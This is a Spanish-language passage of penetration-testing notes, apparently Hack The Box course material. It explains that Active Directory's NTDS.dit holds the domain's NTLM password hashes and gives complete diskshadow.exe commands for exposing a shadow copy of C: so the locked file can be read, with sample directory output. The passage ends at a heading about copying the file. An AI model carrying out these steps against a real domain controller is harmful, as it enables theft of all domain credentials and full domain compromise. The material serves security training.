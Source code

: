 ### NTDS.dit 

* Contiene la base de datos de Active Directory con hashes NTLM de cuentas de dominio (usuarios, equipos, krbtgt, etc.).
* Acceder a este archivo permite extraer credenciales y escalar completamente en el dominio.

### NTDS.dit está bloqueado en uso

* El archivo está bloqueado por el sistema mientras AD está funcionando. Solución: crear un **shadow copy** del volumen y exponerlo.
El sistema no utilizará el archivo NTDS.dit de esta instantánea.

### Usando DiskShadow para exponer la copia

Utilizamos [`diskshadow.exe`](https://learn.microsoft.com/es-es/windows-server/administration/windows-commands/diskshadow):

```
PS C:\htb> diskshadow.exe
DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit
```

Luego `dir E:\` mostrará la estructura de la copia y el archivo `E:\Windows\NTDS\ntds.dit` será legible:

```
    Directory: E:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         5/6/2021   1:00 PM                Confidential
d-----        9/15/2018  12:19 AM                PerfLogs
d-r---        3/24/2021   6:20 PM                Program Files
d-----        9/15/2018   2:06 AM                Program Files (x86)
d-----         5/6/2021   1:05 PM                Tools
d-r---         5/6/2021  12:51 PM                Users
d-----        3/24/2021   6:38 PM                Windows
```

---

## Copiar NTDS.dit desde la shadow copy
